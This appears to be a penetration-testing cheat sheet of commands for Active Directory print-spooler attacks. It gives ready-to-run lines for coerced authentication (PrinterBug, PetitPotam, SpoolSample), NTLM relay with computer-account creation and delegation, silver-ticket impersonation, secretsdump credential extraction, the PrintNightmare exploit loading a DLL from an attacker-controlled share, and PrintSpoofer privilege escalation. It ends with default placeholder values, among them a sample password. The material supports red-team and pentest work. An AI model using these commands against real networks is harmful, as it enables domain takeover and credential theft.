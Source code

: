 # Printerbug and Petitpotam

% printerbug, petitpotam, Active directory

## Finding Spooler services listening
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## webclientservicescanner
#plateform/linux  #target/remote #cat/RECON
https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner '<domain>/<user>:<password>'@<ip_range>
```

## PetitPotam
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener> <target>
```

## ntlmrelayx add computer
#plateform/linux  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```

## Printspoofer privesc
#plateform/windows  #target/local #cat/ATTACK/EXPLOIT

https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```

## Spoolsample launch pipe
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT

coherced authentitication 

```
SpoolSample.exe <target_server> <capture_server> 
```


= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil
